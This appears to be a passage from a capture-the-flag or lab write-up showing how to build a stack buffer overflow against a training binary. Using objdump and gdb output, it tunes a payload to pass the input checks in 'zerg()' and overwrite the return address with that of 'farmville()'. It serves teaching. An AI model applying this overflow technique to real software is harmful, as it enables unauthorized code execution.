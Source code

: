 OK, now let's start the exploit.
First, we need to get pass the several checks in `zerg()`. By reading the source code, there are three criteria that our code must meet :
 - Input must not be longer than 24 chars
 - Sum of input must be divisible by 256
 - First 10 character has to be `RUSHKEKEKE`
 Addition to the above three requirements, we also want our input to redirect the return address to the call address of `farmville()`, which can be found via `objdump -d `, the result is like :
 ``` 
 08048799 <farmville>:
 8048799:       55                      push   %ebp
 804879a:       89 e5                   mov    %esp,%ebp
 804879c:       81 ec e4 00 00 00       sub    $0xe4,%esp
 80487a2:       eb 25                   jmp    80487c9 <farmville+0x30>
 ...
 ```
 The length of buffer can be get by doing 
 `(gdb) disas zerg`
```...
...
0x0804869e <+3>:     sub    $0xc,%esp
...
```
`(gdb) print 0xc` 
`$1 = 12`
so our buffer is 12 char long, and the next 4 byte is the `ebp` pointer, and the next 4 byte is the return address we want to overwrite.
 So the payload would be something like: 
 `RUSHKEKEKE******\x99\x87\x04\x08`
 where the `*` would make the whole payload divisible by 256.
If you have some easy access to Ascii sum method, you can just do the math and find the exact `char` should be put in `*`, otherwise let's just first try some arbitrary thing in  `gdb`:
 `run $(python -c 'print ("RUSHKEKEKE" +"A" * 6+"\x99\x87\x04\x08")')`
 and set a break point at where the comparison is made
 `0x08048729 <+142>:   je     0x804873f <zerg+164>`
 `(gdb) b *0x08048729`
 `Breakpoint 2 at 0x8048729`
```
(gdb) cont
Continuing.
Breakpoint 2, 0x08048729 in zerg ()
``` 
Now let's `disas` the stack and see what is being tested.
`(gdb) disas`
```
   0x0804871f <+132>:   mov    0x804a08c,%eax
   0x08048724 <+137>:   movzbl %al,%eax
   0x08048727 <+140>:   test   %eax,%eax
=> 0x08048729 <+142>:   je     0x804873f <zerg+164>
```
and `$eax` now is set to the remainder of the sum of our payload divided by 256, so we can just print out `$eax` and tune up the payload.
`(gdb) print $eax
$2 = 164 `
So, we need add `(256-164=)92`to our payload. You can substitute any of the `A` , so I substituted 4 `A`s with `(A+23=)X`s, and run it again. 
`run $(python -c 'print ("RUSHKEKEKE" +"A" *2+"X"*4+"\x99
\x87\x04\x08")')`
and once we reach the 2nd break point, let's check out `$eax`.
`(gdb) print $eax
$4 = 0`
Yayyyy! It is now divisible by 256. So how about the return address, did we craft it correctly?
Let's set up another break point after the payload is copied into buffer (and overflow it).  
```
(gdb) b *0x08048775
```